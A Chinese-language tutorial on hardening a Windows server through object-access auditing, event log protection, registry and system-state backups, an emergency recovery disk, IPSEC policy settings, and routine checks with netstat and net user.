

## 1. 启用审核

- 1. 启用审核
  - 1. 首先来看看启用对对象访问的审核。

有的时候可能我们需要对对象的访问进行记录，这就要用到对象的审核。这个操作很多非常熟悉 Windows 的管理员可能也根本没有用过，下面我们就以对 system32 目录的访问进行审核，这里我将设定对 Everyone 的写入和删除操作进行审核。做法如下。

首先在 system32 文件夹上点击鼠标右键，在弹出的对话框中选择属性，找到安全页，在安全页中选择“高级”按钮，会弹出如图 10 所示的对话框。在上面选择“审核”页，然后点击添加按钮，在弹出的对话框中选择 Everyone 组，确定之后会弹出如图 11 所示的对话框，我们在里面做一些选择，然后依次确定。





现在，我们这个实验才做完了一半，接下来，我们还必须再次打开【本地安全策略】→【本地策略】→【审核策略】→【审核对象访问】，在上面点击右键，会弹出一个对话框，只要做如图 12 所示的设置就可以了。这里就启用了对对象的审核。

现在我们在 System32 目录下创建一个文件，并将它删除，看看效果。

接下来，我们可以打开【事件查看器】→【安全日志】，在某一条上面点击右键看属性，依次上下翻动，我们可以看到如图 13 所示的日志，可以看到此次操作的文件。将日志的描述向下滚动，就可以看到如图 14 所示的进行的操作是 Delete 操作。







## （2）启用其他的审核

实际上在实际工作中，我们还要对其他的审核也都全部启用。方法就是在本地安全策略中的【本地策略】—【审核策略】，对于一些操作的成功或者失败进行审核。

另外，事件查看器里面的这三种日志的日志文件，全部都存放在目录 `C:\WINNT\system32\config` 下，所以，一定要保护好这几个日志文件不被损坏。这里您可以结合前面讲解的 NTFS 的安全配置，自己来做一下设置，并且要注意的就是还要对这个目录下的文件经常备份。另外，这几个日志文件的默认大小只有 512KB，如果要增加，可以在“安全日志”上面点击鼠标右键，就可以弹出如图 15 所示的对话框，这里可以对一些属性进行配置，其中就包括文件大小。当然你也可以更改这个日志文件的存放位置。这些操作就由你的应用决定了。对于日志文件的大小，也要结合你的服务器的访问量来决定，不过，在硬盘已不再是宝贵资源的今天，完全可以把这些日志文件设得足够大。



- 2. 使用备份

- 对系统的数据进行经常性的备份确实是个非常好的习惯，这里要谈的备份有下面这几类。
- （1）首先要看的是注册表的备份。注册表的备份比较简单，使用 regedit 将注册表打开，然后将注册表导出到某个文件夹中就可以了，如图 16 所示。
- （2）接下来是系统状态数据的备份。系统状态数据中包含系统当前正在使用的状态信息，其中也包含注册表信息、账户信息、文件目录信息等等，我们将这个做定时备份之后，就可以保证在系统出现问题之后，使系统恢复到一个比较靠近崩溃点的状态。方法如图 17 所示。
- （3）除了对以上两种数据进行备份外，还要对前面谈到的日志信息、重要文档作定期的备份，这些操作都可……





3. 制作紧急恢复盘 ERD。ERD 的英文全称为 Emergency Recovery Disk，它是在不能进入系统时进入系统的法宝，有了它，即便不知道管理员的用户名和密码，一样可以从软盘启动进入操作系统，所以这张软盘要妥善保存，以备不时之需。制作方法如图 18 所示。



## IPSEC 及系统日志维护

为了能够启用 IPSEC，要在本地安全策略中指派一个类型。

在 [公钥策略]→[IP 安全策略，在本地机器中]→[安全服务器（要求安全设置）] 上点击鼠标右键进行指派。这样一来，如果是本机发起的通信请求，就一定进行数字加密与签名。而对于客户端主动发起的通信请求，如果客户端支持 IPSEC（即客户端没有在 IP 安全策略里指派任何策略，就认为客户端不支持安全通信），那么他们就进行 IPSEC 通信。如果客户端不支持 IPSEC 通信，那么客户端发起的通信请求就会被拒绝。

另外，为了能够使用安全通道（IPSEC）技术，我们还要在 [本地策略] 的 [安全选项] 里，做如下设置。

[安全通道：对安全通道数据进行数字加密或签名（总是）] 这一项启用，就可以在进行 IPSEC 通信时进行数字签名或者加密。

[对服务器通信进行数字签名（总是）] 这一项启用，就可以在当本机使用服务器类型的 IPSEC 发起通信时总是进行数字签名。

[对客户端通信进行数字签名（如果可能）] 这一项启用以后，就可以在客户端发起的需要 IPSEC 通信时进行数字签名。

如果要启用 IPSEC，既可以在这里进行配置，也可以在对应的网络连接上进行指派。它们的区别在于，如果在 IP 安全策略里进行设置，那么如果本机是一个多宿主计算机（多块网卡），那么对于所有的网卡都要启用 IPSEC。当然，如果你觉得有的网卡上不用启用 IPSEC，因为 IPSEC 通信毕竟对系统性能有比较大的影响，就可以在单独的网络连接上进行设置，如图 19 所示。

如果是管理员，要经常在命令行中进行一些手动检测，要经常性地查看本机有哪些网络连接，注意观察一下通信的端口，如果出现一些莫名其妙的端口，就要引起高度的警惕。方法就是在 MS-DOS 中使用 `netstat -an` 命令来查看。还要经常查看本机的会话，这些会话通常都是非 TCP/IP 通信协议的方法是使用 `net session` 来查看。要时刻注意账户属性的变化，这一个可以使用 `net user <用户名>` 的方法来查看，需要注意的几个点就是：账户上次访问时间、账户的上次设置密码的时间、账户隶属的组。这些信息一定要观察清楚，如果光凭记忆不好记，可以把每次观察的信息记录到文档中，这样有利于及时发现账户信息的变化，更好地掌控机器被控情况。对于一个合格的网络管理员来说，这一点必不可少。



图19

及时更新升级补丁。需要说明的就是，不要从不正规的站点上下载升级补丁，应该到微软的中国站点上去下载最新的补丁，这样就可以堵住已经发现的漏洞，对于系统防护必不可少，这点我就不多说了。

### 总结

上面说了这么多，其实还有几个点没有说到，如设置屏幕保护密码、修改注册表来提高系统的安全性等等。修改注册表的内容，网上有很多，大家可以在网上搜索一下，肯定一搜一片，这里受篇幅的限制，我就不多说了。我想大家如果能够按照这些想法来实现，肯定可以做出非常牢固的系统来，而且不用借助任何的外力。大家可以看到，Windows 确实非常强大也非常安全，谁敢说不是！当然了，如果你能够再借助一些外力来进行一些安全配置，那么您的系统将是牢不可破。呵呵，当然了，如果你的机器被偷走了，那就没有办法了。

